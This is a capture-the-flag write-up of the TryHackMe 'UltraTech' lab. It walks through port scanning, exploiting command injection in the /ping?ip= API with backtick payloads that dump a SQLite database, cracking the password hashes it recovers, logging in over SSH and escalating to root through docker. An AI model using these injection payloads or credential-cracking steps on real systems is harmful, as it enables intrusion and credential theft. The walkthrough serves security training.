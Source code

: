# TRYHACKME : UltraTech

## It's enumaration time!

### NMAP
```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### PORT 8081
> **DIRECTORIES**
>> - /
>> - /auth
>> - /ping
>

### PORT 31331
> **DIRECTORIES**
>> - /index.html
>> - /.htaccess
>> - /.hta
>> - /.htpasswd
>> - /.css
>> - /favicon.ico
>> - /images
>> - /images
>> - /index.html
>> - /javascript
>> - /js
>> - /server-status
>> - /robots.txt !!!
>> ```
>> PORT 31331/robots.txt
>> 
>> - /Allow: *
>> - User-Agent: *
>> - Sitemap: /utech_sitemap.txt
>>```
>>
>> ```
>> /utech_sitemap.txt contains:
>> 
>>     /index.html
>>     /what.html
>>     /partners.html
>> ```
>> 
>>

## Let the fun begin
> ### PORT 31331/index.html
> The main page contains the following credentials:
> - John McFamicom | r00t
> - Francois LeMytho | P4c0
> - Alvaro Squalo | Sq4l
> - ultratech@yopmail.com
> 

> ### **PORT 8081/partners.html**
> The following is a login page.
> The source code has an interesting js code for api.
> ```
> (function() {
>     console.warn('Debugging ::');
>
>     function getAPIURL() {
> 	return `${window.location.hostname}:8081`
>     }
>
>     function checkAPIStatus() {
> 	const req = new XMLHttpRequest();
> 	try {
> 	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`    // !!! INTERESTING !!!
> 	    req.open('GET', url, true);
> 	    req.onload = function (e) {
> 		if (req.readyState === 4) {
> 		    if (req.status === 200) {
> 			console.log('The api seems to be running')
> 		    } else {
> 			console.error(req.statusText);
> 		    }
> 		}
> 	    };
> ...
> ```
>
> I copied the url and replace the `getAPIURL()` into the target ip. I also replaced `{window.location.hostname}` with my own THM IP.
>
> After submitting the url, I got a successful response:
> ```
> PING 10.4.124.80 (10.4.124.80) 56(84) bytes of data. 64 bytes from 10.4.124.80: icmp_seq=1 ttl=61 time=393 ms --- 10.4.124.80 ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 393.368/393.368/393.368/0.000 ms 
> ```
> 
>> It seems to be working. Let's try to some command injection.
>>
>> After a few tries, I got some results:
>> 
>> ```
>> URL: [TARGET-IP]:8081/ping?ip=[MACHINE-IP]';'`pwd` 
>> 
>> ping: 10.4.124.80/home/www/api: Name or service not known 
>> ```
>>
>> This is the result with `ls` command:
>> ```
>> URL: 10.10.159.142:8081/ping?ip=10.4.124.80';'`ls`
>>
>> ping: utech.db.sqlite: Name or service not known 
>> ```
>>
>> I `cat` the following database and gave a big giveaway:
>> ```
>> URL: http://[TARGET-IP]:8081/ping?ip=[MACHINE-IP]';'`cat utech.db.sqlite`
>>
>> ping: ) ���(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded 
>> ```
>> Obtained two credentials. Possibly a password hash. Ignore the �.
>>
>> I copied the hashes to an online hash cracker, and I got `n100906` and `mrsheafy`.
>>

## The root of all evil
Let's now proceed to the ftp service using the obtained credentials.

I was able to access the ftp with the `r00t` credential. 

I tried the `admin` credential in ftp and ssh, but no avail. But it worked in the login page of port `8081/partners.html` and directed to me to an html page with this message:
```
Restricted area

Hey r00t, can you please have a look at the server's configuration?
The intern did it and I don't really trust him.
Thanks!

lp1
```

I remember there is a hidden directory from `/home/lp1` called `.config`. But I think it's not really important.

Let's get the root.

Let's access `r00t` with ftp again.

But it can't run `cat` command. So I tried the `r00t` credential in ssh and it worked.

It's time to do some escalation.

After a number of failed tries of some privilege escalation tactics, I finally found out that we can escalate using the docker.

Finally got the command from [GTFObins](https://gtfobins.github.io/gtfobins/docker/) to access root!

To get the private ssh, head to `/root/.ssh` directory and copy the first nine characters.

